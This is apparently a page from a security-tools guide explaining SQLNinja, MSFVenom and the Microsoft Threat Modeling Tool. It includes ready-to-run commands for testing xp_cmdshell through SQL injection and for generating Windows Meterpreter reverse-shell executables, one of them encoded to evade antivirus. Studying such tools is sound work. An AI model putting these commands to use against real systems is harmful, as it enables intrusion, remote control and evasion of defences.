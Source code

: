 **Example SQLNinja usage (testing for xp\_cmdshell access):**

```bash
sqlninja -m xpcmd -u "http://target.com/page.asp?id=1"
```

* `-m xpcmd`: Specifies the mode to test for `xp_cmdshell` execution.
* `-u`: Specifies the target URL.

## MSF Venom

MSFVenom is a powerful payload generator that's part of the Metasploit Framework. It's used to generate custom payloads that can bypass antivirus software and security controls. MSFVenom combines payload and encoder functionality into a single command line tool, making it efficient for creating sophisticated attack vectors. Technically, MSFVenom takes a specified payload (e.g., reverse shell, bind shell) and an encoder, then generates executable code that can be deployed on a target system. It can output in various formats (e.g., exe, raw, asp) and often employs polymorphic encoders to alter the signature of the generated payload, aiding in evasion of signature based antivirus detection.

**Example MSFVenom usage (generating a Windows reverse TCP executable):**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o /tmp/shell.exe
```

* `-p`: Specifies the payload.
* `LHOST`: Local host IP (attacker's IP).
* `LPORT`: Local port (attacker's listening port).
* `-f exe`: Output format as an executable.
* `-o`: Output file path.

**Example with encoder for evasion:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o /tmp/encoded_shell.exe
```

* `-e x86/shikata_ga_nai`: Uses the shikata\_ga\_nai encoder.
* `-i 5`: Iterates the encoding 5 times for better evasion.

## Microsoft Threat Modeling Tool

The Microsoft Threat Modeling Tool is a free utility that helps identify potential threats and vulnerabilities in software designs. It allows developers and security architects to create data flow diagrams and then analyze them for common threat patterns, aiding in the proactive identification and mitigation of security risks early in the development lifecycle. The tool guides users through a structured process of defining the architecture, identifying trust boundaries, and applying a set of predefined threat categories (like STRIDE: Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege) to uncover potential vulnerabilities in the system's design. The STRIDE model is a mnemonic that ensures a comprehensive review across different threat types, pushing security professionals to consider various attack vectors for each component of the system.

## PyCharm Community Version
